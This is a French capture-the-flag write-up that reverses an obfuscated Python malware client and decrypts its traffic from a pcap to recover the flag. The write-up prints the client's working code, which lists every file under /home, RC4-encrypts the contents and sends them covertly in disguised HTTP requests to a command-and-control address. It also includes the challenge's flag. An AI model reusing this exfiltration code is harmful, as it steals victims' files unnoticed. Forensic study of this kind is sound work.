 # Take it down

Ce challenge a été réalisé pour les qualifications de l'ECSC qui avait lieu en parallèle du wargame de Lehack. Il a été release pour tous une heure après la release pour les personnes qualifiées pour l'ECSC. J'ai pu donc le commencer une heure après eux.

L'objectif est de retrouver l'identité d'une victime d'un malware où il a été possible de rediriger le flux entre le malware et le serveur de contrôle vers un raspberry pi pour récupérer les trames zéro.

Nous avons à notre disposition 2 fichiers :
- une capture pcap ([sinkhole_capture.pcap](sinkhole_capture.pcap))
- un script python obfusqué décrivant les échanges entre le malware et le serveur C&C ([client.py](client.py))

## Déobfuscation

Il est possible de regarder le pcap pour y voir des requêtes https et des syn/ack réguliers.
Nous allons donc étudier le script python. Il est obfusqué.

Commençons par la partie main :

```python
gb3ccd4n8kd = noraj()
obnco(gb3ccd4n8kd)
wnytyx(gb3ccd4n8kd)
```

Commençons par `noraj` :

```python
def noraj():
    txkvoqw554hn = []
    for r, d, f in os.walk('/home/'):
        for file in f:
            txkvoqw554hn.append(os.path.join(r, file))
    return txkvoqw554hn
```

Simple ici avec le `os.walk`, c'est l'équivalent d'un ls python. Le script va donc lister tous les fichiers de tous les utilisateurs.

La liste des fichiers est donnée en paramètre à `obnco` et à `wnytyx` :

```python
def obnco(xgyvjx7):
    a = '\n'.join(xgyvjx7)
    b = ej6h13cyvp(a.encode().hex())
    send_it(b)


def wnytyx(do7u6r1b):
    for fe in do7u6r1b:
        with open(fe, 'rb') as f:
            q = ej6h13cyvp(binascii.hexlify(f.read()).decode())
            send_it(q)
        f.closed
```

`obnco` va envoyer la liste des fichiers au serveur C&C en faisant d'abord une opération sur les données. Dans le cas de `wnytyx`, c'est le contenu de chaque fichier qui est envoyé au serveur C&C.

## La transmission

Avant d'attaquer `send_it`, vérifions les transformations qui sont faites à l'aide de la fonction `ej6h13cyvp`:

```python
def ej6h13cyvp(zy102a):
    dmlidvl = []
    kpr2m8 = 0o0
    while True:
        ohno = 0o40
        dmlidvl.append(zy102a[kpr2m8:kpr2m8+ohno])
        kpr2m8 = kpr2m8 + ohno
        if kpr2m8 >= len(zy102a)-1:
            break
    return dmlidvl
```

Voici le code en clair :

```python
def gen_array_32bytes(string):
    res = []
    i = 0
    while True:
        res.append(string[i:i+32])
        i = i + 32
        if i >= len(string)-1:
            break
    return res
```

Et le paramètre c'est des octets encodés en hexadécimal. La fonction crée donc une liste de blocs de 32 caractères correspondant à 16 octets de données. Ces blocs sont passés à la fonction send_it :

```python
def send_it(hnij5s):
    qu3jozz36o1 = random.randint(0o1750, 0o21450)
    dip = '192.168.1.30'
    dport = 8080
    gg = [hnij5s[x:x+10] for x in range(0, len(hnij5s), 10)]
    for g in gg:
        seq = random.randrange(0, (2**32)-1)
        sport = random.randint(0o135422, 0o147256)
        syn = IP(dst=dip) / TCP(sport=sport, dport=dport, seq=seq, flags='S')
        last_req = sr1(syn, timeout=5)
        send(IP(dst=dip) / TCP(sport=sport, dport=dport,
                               seq=syn[TCP].seq + 0o1, ack=last_req[TCP].seq + 0o1, flags='A'))
        seq, ack = req(last_req, g, qu3jozz36o1)
        sr1(IP(dst=dip) / TCP(sport=sport, dport=dport, seq=seq, ack=ack, flags='FA'))
        send(IP(dst=dip) / TCP(sport=sport, dport=dport,
                               seq=seq + 0o1, ack=ack + 0o1, flags='A'))
        time.sleep(1)
    return True
```

Le script utilise Scapy pour créer sa communication avec son serveur C&C. Il suffit de suivre la trace des données.
Donc les données sont `hnij5s` puis ensuite `gg` (10 blocs de données sont envoyés pour chaque connexion tcp) puis `g` qui est envoyé à la méthode `req` :

```python
def req(syn_ack, lcyoa21, qu3jozz36o1):
    seq = syn_ack[TCP].ack
    ack = syn_ack[TCP].seq + 0o1
    for data in lcyoa21:
        g8uwxfy = base64.b64encode(dfqguvb8qz4cas9(
            str(ack), data).encode()).decode()
        key = str(random.randint(0o1750, 0o21450)).encode().hex()
        d = base64.b64encode(str(random.randint(0o16432451210000, 0o202757163310000)).encode(
        ).hex().encode()).decode().encode().hex()
        getStr = 'GET /panel.php?id={}&key={}&data={} HTTP/1.1\r\nAccept-Encoding: gzip, deflate, br\r\nAccept-Language: en-US,en;q=0.5\r\nCache-Control: max-age=0\r\nHost: www.gogole.com\r\nConnection: keep-alive\r\nContent-MD5: {}\r\nUpgrade-Insecure-Requests: 1\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36\r\n\r\n'.format(
            qu3jozz36o1, key, d, g8uwxfy)
        reply = sr1(IP(dst=syn_ack[IP].src) / TCP(dport=syn_ack[TCP].sport,
                                                  sport=syn_ack[TCP].dport, seq=seq, ack=ack, flags='PA') / getStr, timeout=5)
        seq = reply[TCP].ack
        ack = len(reply[TCP].payload)
        if len(reply[TCP].payload) == 0o6:
            ack = reply[TCP].seq + 0o562
        elif len(reply[TCP].payload) != 0o562:
            ack = reply[TCP].seq + len(reply[TCP].payload) + 0o1
        else:
            ack = reply[TCP].seq + len(reply[TCP].payload)
        send(IP(dst=syn_ack[IP].src) / TCP(dport=syn_ack[TCP].sport,
                                           sport=reply[TCP].dport, seq=seq, ack=ack, flags='A'))
        time.sleep(0.1)
    return seq, ack
```

## Le chiffrement

Continuons le chemin, donc `g` devient le paramètre `lcyoa21` puis `data` (notre bloc de 16 octets représentés en une chaine hexa) puis `g8uwxfy` qui est passé à l'aide d'un format string à la variable `etStr` pour l'en-tête de la requête `Conten-MD5`. Entre le passage de `data` à `g8uwxfy` un appel à la fonction `dfqguvb8qz4cas9` est réalisé. En paramètre, il y a le numéro ack de la trame qui envoie nos données `getStr`.

```python
def dfqguvb8qz4cas9(k, d):
    eb3o0v9ie8 = 0o400
    dpw8ko0y3gi7h = []
    uajxoyu = list(range(eb3o0v9ie8))
    ozi4iqwms99xv = bdpw8ko0y3 = r589862eilxu = 0o0
    for pls in list(range(eb3o0v9ie8)):
        ozi4iqwms99xv = (
            ozi4iqwms99xv + uajxoyu[pls] + ord(k[pls % len(k)])) % eb3o0v9ie8
        uajxoyu[pls], uajxoyu[ozi4iqwms99xv] = uajxoyu[ozi4iqwms99xv], uajxoyu[pls]
    ozi4iqwms99xv = lq4vbnj2t = 0o0
    for xl4xr9hh in d:
        ozi4iqwms99xv = (ozi4iqwms99xv + 0o1) % eb3o0v9ie8
        lq4vbnj2t = (lq4vbnj2t + uajxoyu[ozi4iqwms99xv]) % eb3o0v9ie8
        uajxoyu[ozi4iqwms99xv], uajxoyu[lq4vbnj2t] = uajxoyu[lq4vbnj2t], uajxoyu[ozi4iqwms99xv]
        dpw8ko0y3gi7h.append(chr(ord(xl4xr9hh) ^ uajxoyu[(
            uajxoyu[ozi4iqwms99xv] + uajxoyu[lq4vbnj2t]) % eb3o0v9ie8]))
    return ''.join(dpw8ko0y3gi7h).encode().hex()
```

Par chance c'est une fonction symétrique. Des permutations sont effectuées sur un tableau représentant les caractères par des entiers en fonction de la clé qui est passé en paramètre. Puis il y a un xor sur entre chaque caractère de la donnée et le tableau final.  
Cette fonction est un RC4. Si l'on regarde le pseudo code de [Wikipedia](https://en.wikipedia.org/wiki/RC4), c'est effectivement ce qui est fait dans notre fonction.  
Nous devons donc juste faire attention aux encodages qui sont réalisés.
Ce qui donne pour retrouver les octets à partir du chiffré :

```python
from Crypto.Cipher import ARC4

def rc4(k, d):
    d = binascii.unhexlify(d).decode().encode('latin-1')
    cipher = ARC4.new(k.encode())
    return binascii.unhexlify(cipher.decrypt(d))
```

Attention, ARC4 ne prend que des octets en entrées, il faut donc convertir les données comme il faut.  
Par défaut `encode` va encoder en `utf-8`, un octet sera donc ajouté lors de votre conversion. Heureusement l'encodage `latin-1` permet de résoudre ce problème.

```python
>>> '\x88'.encode()
b'\xc2\x88'
>>> '\x88'.encode('latin-1')
b'\x88'
```

## La solution finale

Pour la suite c'est assez simple, nous récupérons à l'aide de dpkt les paquets qui sont des requêtes HTTP vers l'url panel.php.

Exemple d'un paquet :

```
GET /panel.php?id=5237&key=38353532&data=4d7a457a4e6a4d774d7a677a4e6a4d314d7a637a4d6a4d794d7a677a4f444d354d7a673d HTTP/1.1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Cache-Control: max-age=0
Host: www.gogole.com
Connection: keep-alive
Content-MD5: YzI4ODc3YzJhZjA0N2ZjMzhjNGEzOWMzOWZjM2E5YzNhM2MyYWFjMjhkYzI5NGMyYjdjMmEyYzJiZTAwNzQzOWMyYmQ0NWMyYjRjM2FlYzM4M2MzOTI2MGMzYTAzOWMzODIwYjNl
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36

data = 1608657228898
```

Dés que l'on détecte une donnée d'un paquet inférieur à 16 octets, nous savons alors que nous changeons de fichiers ou que c'est la fin du `ls`
Si un fichier fait moins de 16 octets, ça marche aussi.

Il est possible d'améliorer le script en récupérant la liste des fichiers puis d'enregistrer les fichiers récupérés avec ces noms.

[Script Final](script.py)

Ce qui nous donne quelques fichiers, dont un fichier info_perso.zip. L'énoncé challenge nous disait de retrouver l'identité de la victime. Il suffit de dézipper puis de cat le fichier pour avoir le flag.

```bash
$ unzip _home_pi_perso_info_perso.zip 
Archive:  _home_pi_perso_info_perso.zip
  inflating: info_perso.txt          
$ cat info_perso.txt 
Vous venez de retrouver des informations sur la victime !
Flag :
lh_3cd2d5296cc2bea8dbaf47ca23f82e1d5ca9b01668426ad07c653877e31d718c
```

